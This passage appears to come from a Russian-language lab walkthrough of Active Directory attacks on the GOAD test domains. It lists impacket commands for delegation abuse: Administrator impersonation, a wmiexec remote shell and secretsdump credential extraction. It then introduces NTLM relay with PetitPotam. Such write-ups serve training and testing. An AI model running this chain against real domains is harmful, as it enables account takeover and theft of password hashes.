 Проверяем права

```
impacket-findDelegation 'north.sevenkingdoms.local/arya.stark:Needle' -target-domain essos.local
```

![](/images/coerce/Pasted%20image%2020250106115932.png)

Имперсонируем пользователя Administrator braavos.essos.local и получаем от его имени доступ к службе cifs на машине braavos.essos.local.

```
impacket-getST -spn 'cifs/BRAAVOS' -impersonate Administrator -dc-ip 192.168.56.12 'essos.local/YZPSBKXC$:2@}ZRuUks.X6MNA'
export KRB5CCNAME=Administrator@cifs_BRAAVOS@ESSOS.LOCAL.ccache
impacket-wmiexec -k -no-pass Administrator@BRAAVOS
```

![](/images/coerce/Pasted%20image%2020250106120659.png)

```
impacket-secretsdump -k -no-pass Administrator@BRAAVOS
```

![](/images/coerce/Pasted%20image%2020250106120938.png)

#### Атака NTLM Relay на SMB

Бывает такое, что учетная запись компьютера является локальным администратором на другом компьютере. В этом случае PetitPotam можно сочетать с атакой NTLM Relay на SMB — отсутствие подписи на SMB встречается довольно часто.
